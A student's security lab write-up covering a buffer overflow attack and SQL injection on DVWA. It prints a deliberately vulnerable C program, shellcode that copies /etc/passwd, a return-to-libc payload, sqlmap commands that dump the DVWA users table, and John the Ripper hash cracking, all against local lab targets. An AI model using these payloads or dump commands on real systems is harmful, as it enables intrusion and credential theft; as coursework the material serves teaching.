


# Lab#1, 22110091, Nguyen Tuan Vu, INSE33030E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 

- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.


- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)

For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy


Then i will compile C asm program and C program to executable code 


I will use an older bash and turn off randomly given stack value.


The pwd of the copy_file `/home/seed/seclabs/LabOnClass/Task1`

Create a global environment varibale using `/home/seed/seclabs/LabOnClass/Task1/copy_file`


The stack frame of main function


I will find the address of system and exit and that string of varibale 


Address value of system: `0xf7e50db0` will be inserted with format \xb0\x0d\xe5\xf7

Address value of exit: `0xf7e449e0` will be inserted with format \xe0\x49\xe4\f7

Address value of the string of env:  `0xffffdf2a` will be inserted with format  `\x2a\xdf\xff\xff`

So the command will be

``` 
    r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x2a\xdf\xff\xff')")
```

output screenshot (optional)

Before 


Execute Code


After


*Conclusion*: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)


- Make sure you can login with default user

So the userdefault will be
username: admin
password: password


- Install sqlmap

Because my virtual machine cannot install sqlmap, i will clone the github and user the sqlmap.py from the author


- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

So for this lab, we will turn the dvwa security to low 


Cookie of the website


**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

The command line for getting database is 
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" --dbs
```


The reuslts


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

Get tables information
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" -D dvwa --tables
```


Reults


Get users information
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" -D dvwa -T users --dump

```


Results


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

So i will create a hashes.txt file to store username and password



I have install john the before


We will use the command below to solve the hashes

```
john hashes.txt

```
But my jack the cripper took to long, so i have to use another application to crack them. The result


